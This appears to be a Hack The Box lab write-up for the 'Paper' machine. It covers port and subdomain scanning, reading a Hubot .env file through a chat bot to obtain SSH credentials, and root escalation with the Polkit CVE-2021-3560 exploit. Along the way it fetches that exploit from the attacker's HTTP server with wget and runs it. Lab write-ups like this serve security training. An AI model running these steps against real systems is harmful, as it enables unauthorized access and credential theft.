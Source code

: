 # [Paper](https://app.hackthebox.com/machines/paper)

```bash
nmap -p- --min-rate 10000 10.10.11.143 -Pn   
```

![Alt text](img/image.png)

After discovering open ports(22,80,443), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 10.10.11.143 -Pn
```

![Alt text](img/image-1.png)

Let's add this ip address into '/etc/hosts' file as 'office.paper' domain.


Let's do subdomain enumeration.

```bash
ffuf -u http://office.paper/ -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```

![Alt text](img/image-2.png)



I found 'chat.office.paper' and this into '/etc/hosts' file.

While browsing this page, I see `office.paper/?static=1`

![Alt text](img/image-3.png)


I got URL from here which is about rocket chat which I can create account.

dr4ks: Dr4ks123!


I see that '**recyclops**' bot, let's use this

![Alt text](img/image-4.png)

I found a environment file on 'hubot' directory via below command.

```bash
file ../hubot/.env
```

![Alt text](img/image-5.png)

I grab below credentials from here.

recyclops: Queenofblad3s!23

I grab also possible username from '/etc/passwd' file.

![Alt text](img/image-6.png)

username: dwight

Let's check this credentials via `crackmapexec` command.

```bash
crackmapexec ssh 10.10.11.143 -u dwight -p 'Queenofblad3s!23'
```

![Alt text](img/image-7.png)

user.txt

![Alt text](img/image-8.png)


Let's search SUID files.

```bash
find / -perm -u=s -type f 2>/dev/null
```

![Alt text](img/image-9.png)x


I know from this output that Polkit binary may have user permission, let's check via `ls -l /usr/bin/pkexec`

![Alt text](img/image-10.png)


I found a CVE exploit called [CVE-2021-3560](https://github.com/Almorabea/Polkit-exploit/tree/main).

1.Let's open HTTP server.

```bash
python3 -m http.server --bind 10.10.14.4 8080
```

![Alt text](img/image-11.png)

2.Let's download script into machine via `wget` command.

```bash
wget http://10.10.14.4:8080/CVE-2021-3560.py
```

While I am on this user, I run `id` command and see that this user belongs `wheel` group which means a **special user group** used on some Unix systems, mostly BSD systems, to control access to the su or sudo command, which allows a user to masquerade as another user (usually the super user). Debian-like operating systems create a group called sudo with purpose similar to that of a wheel group.


I just give execution privlege then run.

```bash
chmod +x CVE-2021-3560.py
python3 CVE-2021-3560.py
```


root.txt

![Alt text](img/image-12.png)